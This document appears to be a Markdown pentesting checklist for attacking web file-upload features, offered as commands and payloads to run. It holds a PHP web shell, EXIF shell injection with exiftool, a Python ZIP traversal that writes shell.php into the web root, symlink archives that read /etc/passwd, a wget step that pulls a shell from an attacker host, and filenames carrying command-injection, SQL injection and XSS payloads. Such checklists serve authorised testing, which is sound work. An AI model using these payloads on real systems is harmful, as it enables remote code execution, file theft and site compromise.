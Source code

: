 # 🗂️ File Upload - Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ While testing for file upload vulnerabilities, I realistically expect to:

- [ ] Upload a webshell or executable script for RCE
- [ ] Bypass extension and content-type restrictions
- [ ] Abuse alternate extensions, encodings, or null bytes
- [ ] Poison metadata (e.g. EXIF) to hide payloads
- [ ] Exploit upload location for path traversal, SSRF, XSS, XXE, or DoS
- [ ] Trigger backend decompression to escape upload directories
- [ ] Achieve execution via `.htaccess`, `.phar`, `.phtml`, `.php5`, etc.

---

## ✅ File Upload Attack Checklist

### 🔍 Extension Bypass

- [ ] Use alternate PHP extensions  
  - `.php`, `.phtml`, `.phps`, `.php5`, `.phar`, `.inc`, `.shtml`

- [ ] Try uppercase and obfuscated versions  
  - `file.PHP`, `file.pHp5`, `file.Phtml`, `file.pHp`, `file.php....`

- [ ] Double extension tricks  
  - `file.jpg.php`, `image.png.phtml`

- [ ] Null byte or encoded tricks  
  - `file.php%00.jpg`, `file.php%20`, `file.php%0a`, `file.php/`

- [ ] Fake extension prepending  
  - `goodfile.png.php`, `pic.jpg.phtml`, `file.asp:.jpg` (NTFS ADS)

- [ ] Long filename to bypass filters  
  - Use 232+ characters and cut `.png` off (e.g. `A…A.php.png`)

---

### 🧪 Content-Type & Magic Number Bypass

- [ ] Use generic Content-Types:
  ```
  Content-Type: application/octet-stream
  Content-Type: text/plain
  Content-Type: image/png
  ```

- [ ] Use EXIF metadata for shell:
  ```bash
  exiftool -Comment='<?php system($_POST["cmd"]); ?>' image.jpg
  ```

- [ ] Inject PNG/JPG magic bytes at file start
  ```
  \x89PNG\r\n\x1a\n
  \xff\xd8\xff (JPG)
  ```

---

### ⚙️ Execution via Upload

- [ ] Look for misconfigurations that auto-execute `.php` even with `.php.jpg`
- [ ] Check for `.htaccess` or `.config` execution tricks
- [ ] Try uploading `.phar` files that may be interpreted as PHP
- [ ] Upload `.svg`, `.html`, or `.js` for stored XSS
- [ ] Upload `.pdf`, `.pptx`, `.xml` for XXE or SSRF
- [ ] Upload `.zip` containing symlinks or nested paths

---

### 🚨 Advanced Tricks

- [ ] Rename uploaded file later if renaming is allowed
- [ ] Combine with LFI to execute uploaded shell
- [ ] Try uploading to overwrite important files (`CON`, `NUL`, etc.)
- [ ] Upload `;sleep 10;` as filename to test for command injection
- [ ] Upload `<svg onload=alert(1)>` to test XSS
- [ ] Try “path traversal” in filename (`../../../etc/passwd`)
- [ ] Use extensions like `.aspx`, `.jsp`, `.cfm`, `.pl` depending on backend

---

### 🛠️ Server Decompression Abuse

- [ ] **Symlink trick:**
  ```bash
  ln -s /etc/passwd link.txt
  zip --symlinks evil.zip link.txt
  ```

- [ ] **Directory traversal inside ZIP:**
  ```python
  z.writestr('../../../../var/www/html/shell.php', '<?php system($_GET["cmd"]); ?>')
  ```

- [ ] **Use evilarc tool:**
  ```bash
  python evilarc.py -o unix -d 5 -p /var/www/html/ rev.php
  ```

---

### 🐚 Web Shell Snippet

```php
<?php
if(isset($_REQUEST['cmd'])){
  system($_REQUEST['cmd']);
}
?>
```

---

### 🔄 wget Filename Truncation

- [ ] Create a long filename to bypass extension checks:
  ```bash
  echo "<?php system(\$_GET['cmd']); ?>" > $(python3 -c 'print("A"*232+".php.gif")')
  python3 -m http.server 80
  wget http://attacker/A...A.php.gif
  ```

---

### 📌 Polyglot File Tricks

- [ ] `.jpg` + `.php` hybrid (e.g., polyglot GIFAR)
- [ ] PNG with shell in IDAT chunk (ImageTragick bypass)
- [ ] File that is both `.zip` and `.php`
- [ ] `.svg` that acts as SSRF, XSS, or XXE vector

---

### 🧨 From File Upload to Other Vulns

- [ ] Filename = `../../../tmp/lol.png` → Path Traversal
- [ ] Filename = `sleep(10)--.jpg` → SQLi
- [ ] Filename = `<svg onload=alert(1)>` → Stored XSS
- [ ] Upload SVG/PDF/XML → XXE, SSRF, CORS bypass
- [ ] Upload `.js` → Service Worker attack
- [ ] Upload EICAR file → Test AV filter

---

### 📊 Magic Header Signatures

- PNG: `\x89PNG\r\n\x1a\n`
- JPG: `\xff\xd8\xff`

More: https://en.wikipedia.org/wiki/List_of_file_signatures

---

### 🔎 Useful Tools

- [Upload Scanner - Burp](https://github.com/portswigger/upload-scanner)
- [PayloadsAllTheThings – Upload Insecure Files](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20insecure%20files)
- [fuxploider](https://github.com/almandin/fuxploider)

---

## 🧠 Top Things to Try by File Type

| File Type | Potential Impact                      |
|-----------|----------------------------------------|
| `.php`    | Webshell, RCE                         |
| `.svg`    | Stored XSS, XXE, SSRF                 |
| `.gif`    | Stored XSS, SSRF                      |
| `.csv`    | CSV Injection                         |
| `.xml`    | XXE                                   |
| `.avi`    | LFI, SSRF                             |
| `.html`   | XSS, Open Redirect                    |
| `.zip`    | LFI via traversal, DoS                |
| `.pdf`    | Blind XXE, SSRF                       |

---

```c
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

[Use this tool](https://github.com/almandin/fuxploider) 

